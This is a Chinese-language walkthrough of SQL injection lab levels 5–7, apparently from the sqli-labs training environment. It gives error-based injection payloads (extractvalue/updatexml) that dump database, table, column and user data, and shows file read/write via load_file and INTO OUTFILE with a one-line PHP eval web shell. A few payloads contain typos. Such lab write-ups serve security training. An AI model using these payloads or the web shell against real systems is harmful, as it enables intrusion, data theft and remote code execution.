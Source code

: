 # 5-7
## 第五关
通过探测发现为字符型注入
尝试使用union注入
`id=1' order by 4--+`
发现有3列
查询数据库名
`id=1' union select 1,database(),3--+`
无回显数据库信息，无法使用union注入

尝试堆叠注入(真实情况下应判断数据库类型和后端开发语言类型，不同的数据库和开发语言对堆叠查询的支持程度不同)
`id=1';show databases;--+`
报错，无法得到有效信息
>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'show databases;-- ' LIMIT 0,1' at line 1

尝试使用报错注入(extractvalue，updatexml)
```
id=1' and (extractvalue(1,concat(0x7e,database(),0x7e)))--+ //不能使用%7e代替0x7e格式不对
id=1' and (updatexml(1,concat(0x7e,database(),0x7e),1))--+
```
爆出数据库名security
爆出数据
```
id=1' and (extractvalue(1,concat(0x7e,(select group_concat(table_name separator ';') from information_schema.tables where table_schema=database()),0x7e)))--+ //注意注入点需要用括号包裹 | group_concat(table_name separator ';') 指定分隔符 
id=1' and (extractvalue(1,concat(0x7e,(select group_concat(column_name separator ';') from information_schema.columns where table_schema=database() and table_name='users'),0x7e)))--+ //注意表名要用引号包裹
id=1' and (extractvalue(1,concat(0x7e,(select group_concat(id separator ';') from security.users),0x7e)))--+
```
报错信息可能会有长度限制可以使用group_concat将所有的数据连成一列，并用substr()来进行偏移获取想要的部分`substr(string,position,length)`
```
id=-1' and (extractvalue(1,concat(0x7e,(select%20substr(group_concat(schema_name),40,100) from information_schema.schemata),0x7e)))--+
```
## 第六关
通过尝试发现存在sql注入
`id=-1"`
>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"-1"" LIMIT 0,1' at line 1
可以发现使用id`"`包裹起来
尝试union注入发现只有3列
`id=1" order by4`
尝试爆出数据库名
`id=1" union select 1,database(),3--+`
和第五关相同无回显数据库信息
尝试报错注入
```
id=1" and (exrtractvalue(1,concat(0x7e,database(),0x7e)))--+
```
成功报出数据库名
后续流程和第五关相同
## 第七关
尝试了各种方式都无法闭合，查看源码后为`(('$id'))`，继续进行尝试发现无法闭合
后发现该关的提示为：
>You are in.... Use outfile......
提示写入文件
通过搜索得到相关写入文件的信息：
mysql读写信息相关函数以及配置信息
**配置信息**
`secure_file_priv`参数是MySQL对文件操作的配置
其值为`NULL`时，表示禁止文件操作
其值为`目录`时，表示仅允许在该目录下进行文件操作
其值为`空`时，表示不进行目录限制
mysql5.6.34后默认值为NULL
**相关函数**
`load_file()`查看文件
```
select load_file("path/test.txt");
insert into tb1(name) values(load_file("path"));
```
`outfile()``dumpfile()`写入文件
```
select "<?php @eval($_GET['cmd']);?>" into outfile "path/a.php";
select "<?php @eval($_GEt['cmd']);?>" into dumpfile "path/a.php";
```
该关当结果错误时回显语法报错，可以通过布尔盲注来爆出数据
结果还是用sqlmap跑出来的